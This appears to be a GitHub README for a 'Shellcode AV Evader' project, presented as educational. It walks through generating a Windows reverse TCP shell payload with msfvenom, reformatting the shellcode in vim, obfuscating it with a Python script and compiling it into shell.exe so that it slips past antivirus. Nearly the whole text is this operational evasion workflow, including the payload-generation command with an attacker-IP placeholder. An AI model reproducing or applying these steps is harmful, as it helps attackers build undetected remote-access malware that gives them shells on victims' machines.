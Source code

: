 # Shellcode AV Evader
This project main only educational porpouses, the idea was based on
speechs of @Mr.Un1k0d3r and @mr.d0x

--- 

## Generate payload
`$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f c -o shellcode_c_payload.txt`

---

## open on vim
$ vim shellcode_c_payload.txt
```
:g /buf/d                   delete the line that contains "buf"
:s/;//                      remove `;`
:%s/"\(.*\)"/\1/            remove `"`
:%join                      join all lines in one
:s/\s\+//g                  remove blank spaces
:s/\(\\.\{3\}\)/"\1",/g     

result in string: "\xde",\xad","\xbe","\xef"...
```
after saving you can easily copy to clipboard using\
`$ cat shellcode_c_payload.txt | xclip -selection clipboard`

---

open file **dictionary_obfuscator.py** and paste the shellcode in the correct place

after running the code, take note of the length of the payload and 
use any text editor to remove `[`, `]` and replace all`'` for `"`

---
open file **reverse_shell.c**, paste the payload from python in the correct place as the size

---
compile with\
`$ x86_64-w64-mingw32-gcc -o shell.exe reverse_shell.c`


